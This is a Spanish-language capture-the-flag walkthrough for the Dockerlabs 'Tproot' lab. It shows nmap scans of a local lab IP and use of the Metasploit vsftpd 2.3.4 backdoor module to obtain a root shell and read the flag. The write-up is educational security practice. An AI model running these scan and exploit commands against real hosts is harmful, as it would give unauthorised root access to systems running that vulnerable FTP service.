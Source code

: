 ```markdown
# Máquina Tproot - Dockerlabs

## Descripción
Tproot es una máquina de la plataforma Dockerlabs con un nivel de dificultad **Muy Fácil**. En este laboratorio, se explora una vulnerabilidad crítica en el servicio FTP (vsftpd 2.3.4) que permite la ejecución de comandos remotos mediante una puerta trasera (backdoor). El objetivo es obtener acceso root a la máquina y encontrar la flag en el directorio `/root`.

## Resumen de conceptos trabajados
- Escaneo de puertos con Nmap.
- Uso de Searchsploit para buscar vulnerabilidades.
- Explotación de la vulnerabilidad con Metasploit.
- Obtención de una shell con privilegios de root.

## Pasos para la resolución

### 1. **Preparación del entorno**
- Descargar la máquina Tproot de Dockerlabs.
- Desplegar la máquina en el entorno local.
- La IP de la máquina víctima es siempre `172.17.0.2`.

### 2. **Escaneo de puertos**
- Verificar si la máquina está activa:
  ```bash
  nmap -sn 172.17.0.2
  ping -c 1 172.17.0.2 -R
  ```
  El TTL de 64 indica que es una máquina Linux.

- Escanear puertos abiertos:
  ```bash
  sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG Escaneo
  ```
  Se detectan los puertos 21 (FTP) y 80 (HTTP) abiertos.

- Escanear versiones de los servicios:
  ```bash
  nmap -sCV -p80,21 172.17.0.2
  ```
  Se identifica que el servicio FTP ejecuta **vsftpd 2.3.4**, una versión vulnerable.

### 3. **Búsqueda de vulnerabilidades**
- Usar `searchsploit` para buscar exploits disponibles:
  ```bash
  searchsploit vsftpd 2.3.4
  ```
  Se encuentra el exploit **vsftpd 2.3.4 – Backdoor Command Execution**.

### 4. **Explotación con Metasploit**
- Abrir Metasploit:
  ```bash
  msfconsole
  ```

- Seleccionar el exploit:
  ```bash
  use exploit/unix/ftp/vsftpd_234_backdoor
  ```

- Configurar la IP objetivo:
  ```bash
  set RHOSTS 172.17.0.2
  ```

- Ejecutar el exploit:
  ```bash
  exploit
  ```
  Si la vulnerabilidad está activa, se obtiene una shell con privilegios de root.

### 5. **Post-explotación**
- Verificar el usuario actual:
  ```bash
  whoami
  ```
  Debería mostrar `root`.

- Buscar la flag en el directorio `/root`:
  ```bash
  cd /root
  cat root.txt
  ```

## Resumen
Para resolver la máquina Tproot:
1. Se realizó un escaneo de puertos con Nmap, identificando los servicios FTP y HTTP.
2. Se encontró que el servicio FTP ejecutaba una versión vulnerable de vsftpd (2.3.4).
3. Se utilizó Metasploit para explotar la vulnerabilidad y obtener una shell con privilegios de root.
4. Finalmente, se localizó la flag en el directorio `/root`.

Este laboratorio demuestra cómo una vulnerabilidad crítica en un servicio puede permitir el control total de un sistema con solo unos pocos comandos.

---

**Nota:** Esta misma vulnerabilidad fue explotada en el laboratorio **FirstHacking**, también de nivel Muy Fácil en Dockerlabs.
```

}
